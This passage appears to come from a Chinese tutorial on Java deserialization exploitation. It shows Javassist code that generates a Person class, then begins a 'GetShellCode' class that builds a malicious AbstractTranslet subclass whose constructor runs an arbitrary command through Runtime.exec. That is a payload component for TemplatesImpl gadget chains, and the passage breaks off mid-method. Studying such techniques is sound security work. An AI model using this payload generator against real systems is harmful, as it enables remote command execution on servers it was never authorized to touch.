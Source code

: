 ```plain
        //设置方法体
        ctMethod.setBody("{System.out.println(name);}");
        //将该方法添加进 Person 中
        ctClass.addMethod(ctMethod);
        //将生成的字节码写入文件
        ctClass.writeFile("D:\\Tomcat\\CC\\src\\main\\java\\JavaassitTest");
    }

    public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException {
        CreateClass();
    }
}
```

然后我们来看一下我们生成的 Person 类

```plain
public class Person {
    private String name = "Ic4F1ame";

    public void setName(String var1) {
        this.name = var1;
    }

    public String getName() {
        return this.name;
    }

    public Person() {
        this.name = "Ic4F1ame";
    }

    private void printName() {
        System.out.println(this.name);
    }
}
```

### 生成恶意类：

因为恶意类需要继承`AbstractTranslet`类，并重写两个`transform()`方法。否则编译无法通过，无法生成`.class`文件，但是执行的时候我们并没有用到两个方法，同时使用 Javassit 生成的时候直接生成的是字节码类型的恶意类，所以跳过了编译的过程，就不需要引入重写的方法：

```plain
package EXPShell;
import javassist.*;

import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
public class GetShellCode {

    public static CtClass getTemplatesImpl(String cmd) {
        CtClass ctClass = null;
        try {
            ClassPool pool = ClassPool.getDefault();
            ctClass = pool.makeClass("A");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = CtNewConstructor.make("public A(){Runtime.getRuntime().exec(\"" + cmd + "\");\n}", ctClass);
            ctClass.addConstructor(constructor);
            return ctClass;
```